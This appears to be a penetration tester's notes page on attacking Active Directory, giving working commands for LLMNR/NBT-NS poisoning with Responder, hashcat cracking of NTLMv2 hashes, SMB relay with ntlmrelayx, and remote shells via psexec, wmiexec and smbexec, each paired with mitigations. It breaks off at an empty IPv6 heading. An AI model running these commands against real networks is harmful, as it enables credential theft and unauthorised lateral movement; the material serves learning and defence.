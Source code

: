 ```yaml
---
description: Hacking Active directory
---
```


# Responder / SMB Relay

### LLMNR Poisoning

DNS or NBT-NS. Responds with NTLMv2 hash.

`responder -I eth0 -rdwv`

`hashcat -m 5600 hashes.txt rockyou.txt`

Mitigation:

* Disable LLMNR

  Local Computer Policy &gt; Computer Configuration &gt; Administrative Templates &gt; Network &gt; DNS Client in the Group Policy Editor&gt; "Turn OFF Multicast Name Resolution" 

* Disable NBT-NS

  Network Connections &gt; Network Adapter Properties &gt; TCPv4 Properties &gt; Advanced tab &gt; WINS tab &gt; select "Disable NetBIOS over TCP/IP"

\(Else\)

* Require Network Access Control
* Strong user passwords &gt; 14 characters and limit common word usage.

### SMB Relay

SMB signing must be disabled on target.

We can scan if host has SMB signing disabled using nessus, smbsign, nmap etc. Below is an namp scan result example where the SMB signing is 'not required' and can perform relay attacks on

```text
nmap --script=smb2-security-mode.nse -p445 192.168.42.0/24

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

Steps:

1. write target ip address to `targets.txt`
2. Config responder to turn off 'HTTP' and 'SMB' to prevent responding to these protocols `/usr/share/responder/Responder./conf`
3. Use `ntlmrelayx.py -tf targets.txt -smb2support`

Mitigation:

* Enable SMB signing on all
  * pro: completely stops attacks. 
  * con: causes performance issues with file copying
* Disable NTLM auth
  * pro: completely stops attacks
  * con: if kerberos stop working, windows default back to NTLM
* Account tiering
  * pro: Limits domain admins to specific tasks
  * con: enforicing policy may be difficult
* Local admin restriction
  * pro: prevents alot lateral movements.
  * con: potentially increase in amount of service desk tickets

### SMB gaining shell access

```bash
# Impacket
psexec.py adhacking.local/saul:Password123@192.168.42.139

# Wmiexec
wmiexec.py adhacking.local/saul:Password123@192.168.42.139

# Smbexec
smbexec.py adhacking.local/saul:Password123@192.168.42.139

# Metasploit
exploit(windows/smb/psexec) > 

```

\`\`

\`\`

\`\`

### IPv6 Attacks

